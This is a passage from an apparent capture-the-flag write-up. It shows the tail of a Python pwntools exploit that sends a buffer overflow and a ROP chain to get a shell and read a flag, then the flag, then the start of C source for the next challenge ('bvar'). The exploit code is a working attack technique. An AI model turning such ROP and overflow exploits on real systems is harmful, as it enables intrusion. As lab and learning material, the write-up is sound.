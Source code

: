 ```py
    mov_rax_qword_rbp_8,
    junk, junk, junk,

    pop_rbx_pop_rbp_pop_4, (libc.sym.system - libc.sym.printf) & 0xffffffff, elf.sym.gif - 8 + 0x30,
    junk, junk, junk, junk,

    mov_qword_rbp_0x30_rax,
    junk, junk, junk, junk, junk, junk, elf.sym.gif - 8 + 0x3d, # rbp

    add_dword_rbp_0x3d_ebx,

    pop_rdi, 0x4012f0,
    pop_rsi_pop_r15, elf.sym.gif,
    junk,

    elf.plt.__isoc99_scanf,

    pop_rdi, elf.sym.gif,
    pop_rbp, elf.sym.gif - 8,
    ret,
    jmp_qword_rbp
]

payload = b''.join([p64(x) for x in ropchain])

start()

p.sendline(b'A'*536 + payload)
p.sendline('cat flag.txt')
p.sendline()

p.interactive()
p.close()
```
Flag: `ACSC{buriburi_1d3dfb9bf7654412}`

# bvar - 380 pts - 22 solves
Relevant code below:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct node_data{
	char data[0x8];
	char name[0x4];
};
struct node{
	struct node_data *data;
	struct node *next;
	struct node *prev;
};

char c_memory[1000];
unsigned int c_size = 0;

char* freelist[10];
int free_head=0;


struct node *head;
```